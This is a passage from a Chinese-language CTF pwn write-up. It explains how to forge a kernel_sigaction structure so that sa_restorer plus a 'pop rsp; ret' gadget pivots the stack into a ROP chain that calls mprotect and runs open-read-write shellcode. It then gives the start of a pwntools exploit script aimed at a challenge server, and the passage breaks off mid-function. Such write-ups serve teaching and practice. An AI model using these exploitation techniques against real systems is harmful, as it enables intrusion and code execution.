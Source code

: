 发现实际上传递的时候会将`sigaction`结构体转成实际上传递的`kernel_sigaction`结构体。

```c
/* This is the sigaction structure from the Linux 3.2 kernel.  */
struct kernel_sigaction
{
  __sighandler_t k_sa_handler;
  unsigned long sa_flags;
#ifdef HAS_SA_RESTORER
  void (*sa_restorer) (void);
#endif
  /* glibc sigset is larger than kernel expected one, however sigaction
     passes the kernel expected size on rt_sigaction syscall.  */
  sigset_t sa_mask;
};
```

如上的`kernel_sigaction`，和我们在调试中看到的实际传递的结构体一致。

我们这时可以看一下它构造的结构体，然后把一些标志位扒下来，构造结构体，改改参数就行了。

这时我们就要想一下怎么利用了。我们可以任意执行，并且返回地址也是一个可控的地址，但是参数不可控，这里我考虑 gadget 。ROPgadget 扫一下有没有可以控制 rsp 的 gadget ，然后看到

```c
0x00000000004047c5 : pop rsp ; ret
```

而刚到 handler 上时 rsp 其实就是指向`sa_restorer`。设置`sa_restorer`指向我们的可控地址，这样就可以直接栈迁移，之后就是简单的 rop 了。

由于题目没禁 mprotect ，所以后面可以直接改页权限，然后返回到上面执行 shellcode 来 orw 。

**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *
from SomeofHouse import *

context(os="linux", arch="amd64", terminal=['tmux', 'splitw', '-h', '-F' '{pane_pid}', '-P']) 
context.log_level = "debug"

proc_path = './release/chal'
libc_path = ''

init_proc_with_libc(proc_path, libc_path)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

conn_context(host='124.222.230.184', port=10010, level=REMOTE, proc=proc_path)
# conn_context(args = [USE_PROXY], ld_rpath = ('./ld-2.23.so', libc_path))

elf = ELF(proc_path)
# libc = ELF(libc_path, checksec=False)
io = conn()
# io = conn(proc=['seccomp-tools', 'dump', proc_path])
    
def exp():
    pop_rdi = 0x4062f3
    pop_rsi = 0x404e68
    pop_rdx_rbx = 0x49688b
    mprotect = 0x460EE0

    def write_addr(start, pad):
        shellcode = []
        while len(pad) != 0:
            shellcode.append(f'SET REG0 {hex(pad[0])[2:]}'.encode()) 
            shellcode.append(f'STORE REG0 {hex(start)[2:]}'.encode())
            start += 8
```